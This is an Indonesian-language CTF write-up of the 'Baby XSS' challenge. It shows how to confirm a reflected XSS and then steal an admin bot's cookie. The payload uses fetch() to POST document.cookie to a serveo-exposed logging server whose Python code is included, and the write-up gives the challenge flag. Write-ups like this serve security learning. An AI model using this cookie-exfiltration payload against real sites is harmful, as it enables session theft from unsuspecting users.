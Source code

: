 # Baby XSS

>Aku yang baru belajar XSS menemukan sebuah repo untuk automasi XSS challenge deployment, berikut reponya: <br>https://github.com/dimasma0305/CTF-XSS-BOT/ <br>Bisakah kalian membantuku untuk melakukan exploitasi XSS sesuai pada repo kode vulnerable yang ada di repository tersebut?

>http://ctf.gemastik.id:9020/

**Category: Web** 

## Approach

![chall](docs/chall.png)

Sesuai dengan deskripsi, challenge ini merupakan challenge XSS. Berdasarkan pada repository, XSS terdapat pada halaman utama yaitu http://ctf.gemastik.id:9020/ dengan parameter x pada URL.

![index](docs/index.png)

Lakukan XSS sederhana dengan menambahkan `?x=alert(1)` 

![alert](docs/alert.png)       

Halaman bot admin berada pada http://ctf.gemastik.id:9020/report.

![adminbot](docs/adminbot.png)

Nampaknya flag dimasukkan ke dalam cookie pada bot.

![bot](docs/bot.png).

Selanjutnya kita akan mencoba mendapatkan cookie dari bot tersebut dengan bantuan XSS, dan dikirimkan ke HTTP Server sederhana yang akan kita buat dan diekspos menggunakan [serveo](https://serveo.net/).

Buat `server.py` untuk menangkap request yang masuk

```python
#!/usr/bin/env python3
"""
License: MIT License
Copyright (c) 2023 Miel Donkers

Very simple HTTP server in python for logging requests
Usage::
    ./server.py [<port>]
"""
from http.server import BaseHTTPRequestHandler, HTTPServer
import logging
            
class S(BaseHTTPRequestHandler):
    def _set_response(self):
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()

    def do_GET(self):
        logging.info("GET request,\nPath: %s\nHeaders:\n%s\n", str(self.path), str(self.headers))
        self._set_response()
        self.wfile.write("GET request for {}".format(self.path).encode('utf-8'))

    def do_POST(self):
        content_length = int(self.headers['Content-Length']) # <--- Gets the size of data
        post_data = self.rfile.read(content_length) # <--- Gets the data itself
        logging.info("POST request,\nPath: %s\nHeaders:\n%s\n\nBody:\n%s\n",
                str(self.path), str(self.headers), post_data.decode('utf-8'))

        self._set_response()
        self.wfile.write("POST request for {}".format(self.path).encode('utf-8'))

def run(server_class=HTTPServer, handler_class=S, port=8080):
    logging.basicConfig(level=logging.INFO)
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    logging.info('Starting httpd...\n')
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()
    logging.info('Stopping httpd...\n')

if __name__ == '__main__':
    from sys import argv

    if len(argv) == 2:
        run(port=int(argv[1]))
    else:
        run()
```

Jalankan HTTP Server dan ekspos ke publik dengan serveo.
```bash
python server.py 8080

ssh -R 80:localhost:8080 serveo.net
```

Masukkan URL berisi payload XSS ke dalam halaman admin bot, ini akan melakukan POST request dan mengirimkan cookie melalui body ke HTTP Server. Rubah `xxx.serveo.net` dengan public URL yang didapat dari port forwarding serveo.

```
http://proxy/?x=fetch(%27https://xxx.serveo.net%27,%20{method:%20%27POST%27,%20body:%20JSON.stringify(document.cookie)})
```

![submit](docs/submit.png)  

Kita mendapatkan flagnya

![flag](docs/flag.png)        

**Flag**: `gemastik{s3lamat_anda_m3ndap4tkan_XSS}`
